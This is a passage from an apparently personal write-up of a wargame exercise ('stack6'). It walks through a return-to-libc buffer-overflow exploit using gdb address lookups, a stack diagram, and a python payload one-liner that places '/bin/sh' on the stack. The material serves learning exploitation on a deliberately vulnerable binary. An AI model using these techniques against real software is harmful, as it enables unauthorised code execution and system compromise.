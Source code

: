 ```
| other things   |
| that don't     |
| matter         |
```

Let's address the easy issues first, finding the addresses of `system` and `exit`. Using gdb:

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

Now for the part that confused me the most. How TF do I find `/bin/sh`? I saw a lot of people do it online by using a secondary program to create a few environment variables, and also the same technique was used in the book The Shellcoder's Handbook. Seeing as I am lazy (and also the thought of having to debug other people's C...), however, I thought it would be useful to do it another way. Since the memory is super predictable, I can just pass in `/bin/sh` as part of the input, find it on the stack, and then pass that address in. Let's try!

So the stack now has to look like:
```
 ________________ < ebp - 0x4c
|  our buffer    |
 ________________ < ebp 
|    old ebp     |
 ________________
| system address |
 ________________
| exit   address |
 ________________
| pointer to     |
| /bin/sh        |
 ________________
| /bin/sh string |
 ________________
| other things   |
| that don't     |
| matter         |
```

```bash
python -c 'print "A" * 80 + "\x4c\x82\x04\x08" + "\x00\x00\x00\x00" + "\x00\x00\x00\x00" + "\x2f\x62\x69\x6e\x2f\x73\x68"' | ./stack6
```

Run this and inspecting the coredump, we see:
```arm
(gdb) x/4x $esp
0xbffff800:	0x00000000	0x00000000	0x6e69622f	0x0068732f
(gdb) x/s 0xbffff808
0xbffff808:	 "/bin/sh"
```

